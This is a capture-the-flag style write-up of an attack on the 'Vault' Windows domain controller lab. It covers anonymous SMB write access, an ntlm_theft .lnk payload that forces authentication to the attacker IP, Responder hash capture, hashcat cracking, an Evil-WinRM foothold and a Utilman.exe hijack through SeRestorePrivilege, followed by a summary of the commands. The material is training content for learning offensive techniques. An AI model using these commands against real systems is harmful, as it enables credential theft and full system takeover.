



# Vault - Proving Grounds Practice

> **Kill Chain Summary**: Anonymous SMB enumeration identifies writable share (DocumentsShare) -> Uploading malicious .lnk shortcut via ntlm_theft to trigger UNC path access -> Responder captures NetNTLMv2 hash for anirudh -> Hashcat cracks password (SecureHM) -> WinRM access as anirudh -> SeRestorePrivilege abused to overwrite Utilman.exe with cmd.exe -> Triggering command prompt from RDP login screen -> SYSTEM Shell.

| Property | Value |
|---|---|
| **Target Name** | Vault |
| **Platform** | Proving Grounds Practice |
| **OS** | Windows Server 2019 (Active Directory) |
| **Difficulty** | Medium |
| **Status** | Rooted |
| **Key Techniques** | Anonymous SMB Write, NTLM Hash Theft (ntlm_theft / .lnk), NetNTLMv2 Cracking (Hashcat), WinRM Foothold, SeRestorePrivilege (Utilman.exe Hijack) |

---

## 1. Reconnaissance and Enumeration

### 1.1 Port Scanning (Nmap)

We run a full TCP port scan against the target:

```bash
sudo nmap -p- --min-rate 1000 -T4 -Pn $IP -oA nmap/allports
```

**Open Ports Summary:**
```text
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
```

Kerberos (88), LDAP (389), and DNS (53) confirm that the host is a Windows Active Directory Domain Controller (`vault.offsec`).

---

### 1.2 SMB Enumeration (Port 445)

We test for anonymous / null sessions on SMB:

```bash
smbclient -L //$IP/ -N
```

```text
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        DocumentsShare  Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```

Connecting to `DocumentsShare`:

```bash
smbclient //$IP/DocumentsShare -N
```

```text
smb: \> ls
  .                                   D        0  Fri Nov 19 03:59:02 2021
  ..                                  D        0  Fri Nov 19 03:59:02 2021

smb: \> put test.txt
putting file test.txt as \test.txt (0.0 kB/s)
```

The share `DocumentsShare` is accessible and writable by anonymous users.

---

## 2. Initial Access

### 2.1 Forced Authentication via UNC Path (.lnk Injection)

When an internal user or automated process browses a shared folder, Windows Explorer attempts to render icon previews for files. By placing a shortcut (`.lnk`) or configuration file with an `IconFile` pointing to a remote UNC path (`\\KALI_IP\share\icon.ico`), we can force the client machine to initiate an SMB authentication handshake to our machine, allowing us to capture its NetNTLMv2 hash.

We generate an icon-based shortcut payload using `ntlm_theft`:

```bash
python3 ntlm_theft.py -g lnk -s KALI_IP -f vault
```

This creates `vault/vault.lnk` configured to fetch its icon from our attacker IP.

#### Setting Up Responder & Capturing Hash
1. Start Responder on the VPN interface:
   ```bash
   sudo responder -I tun0 -v
   ```

2. Upload `vault.lnk` to the writable SMB share:
   ```bash
   smbclient //$IP/DocumentsShare -N -c "put vault.lnk"
   ```

3. Shortly after, a background user process browses the share, triggering the connection to Responder:
   ```text
   [SMB] NTLMv2-SSP Client   : 192.168.x.x
   [SMB] NTLMv2-SSP Username : VAULT\anirudh
   [SMB] NTLMv2-SSP Hash     : anirudh::VAULT:0878f4a807e737b9:...
   ```

---

### 2.2 Password Hash Cracking

We extract the hash into a file and crack it using Hashcat mode 5600 (NetNTLMv2):

```bash
hashcat -m 5600 -a 0 hash_anirudh.txt /usr/share/wordlists/rockyou.txt
```

```text
anirudh:SecureHM
```

Recovered credentials: `anirudh:SecureHM`

---

### 2.3 Remote Foothold (WinRM)

With valid domain credentials, we connect via Evil-WinRM:

```bash
evil-winrm -i $IP -u 'anirudh' -p 'SecureHM'
```

```powershell
*Evil-WinRM* PS C:\Users\anirudh\Documents> whoami
vault\anirudh

*Evil-WinRM* PS C:\Users\anirudh\Desktop> cat local.txt
[FLAG REDACTED]
```

---

## 3. Privilege Escalation

### 3.1 Token Privileges Enumeration

Checking privileges assigned to `anirudh`:

```powershell
whoami /priv
```

```text
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
```

The user holds `SeRestorePrivilege` enabled.

---

### 3.2 Exploiting SeRestorePrivilege via Utilman Hijack

`SeRestorePrivilege` allows a user to write or replace any file on the filesystem, bypassing NTFS discretionary access control lists (DACLs).

Because RDP (port 3389) is active, we can leverage this privilege to replace the Windows Ease of Access binary (`C:\Windows\System32\Utilman.exe`) with `cmd.exe`. When the Ease of Access button is clicked on the RDP login screen, Windows executes `Utilman.exe` with `NT AUTHORITY\SYSTEM` privileges.

#### Binary Replacement Sequence:
```powershell
*Evil-WinRM* PS C:\Windows\system32> ren Utilman.exe Utilman.old
*Evil-WinRM* PS C:\Windows\system32> copy cmd.exe Utilman.exe
```

---

### 3.3 Triggering SYSTEM Shell via RDP

1. Launch an RDP client towards the target:
   ```bash
   xfreerdp /v:$IP
   ```



2. On the Windows logon screen, press **Windows Key + U** or click the Ease of Access icon in the bottom right corner.
3. An administrative command prompt spawns on the screen running as `NT AUTHORITY\SYSTEM`!



```cmd
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\proof.txt
[FLAG REDACTED]
```



---

## 4. Useful Commands Summary

```bash
# Generate forced authentication shortcuts with ntlm_theft
python3 ntlm_theft.py -g lnk -s [KALI_IP] -f payload

# Upload file via smbclient
smbclient //TARGET/Share -N -c "put payload.lnk"

# Crack NetNTLMv2 with Hashcat
hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

# SeRestorePrivilege Utilman Hijack (via PowerShell)
copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe /Y
```

---

## 5. Key Takeaways and Lessons Learned

1. **Anonymous Writable Shares Enable Coerced Authentication:** Any SMB share accessible without credentials that allows write operations is vulnerable to forced authentication. Placing files like `.lnk`, `.scf`, or `.url` containing remote UNC paths will trigger automatic NetNTLMv2 authentication from users browsing the directory.
2. **Payload Selection:** If automated scanning bots ignore generic URL or SCF shortcuts, `.lnk` files generated via `ntlm_theft` are typically processed by Windows Explorer when attempting to resolve shortcut icons.
3. **SeRestorePrivilege Severity:** `SeRestorePrivilege` is equivalent to full system compromise. If interactive services like RDP are exposed, replacing accessible login helper executables (`Utilman.exe`, `sethc.exe`) yields an instant GUI SYSTEM shell.

---

### Tags
#windows #active-directory #smb #ntlm-theft #hash-cracking #hashcat #winrm #serestoreprivilege #utilman #medium #pg-practice #rooted
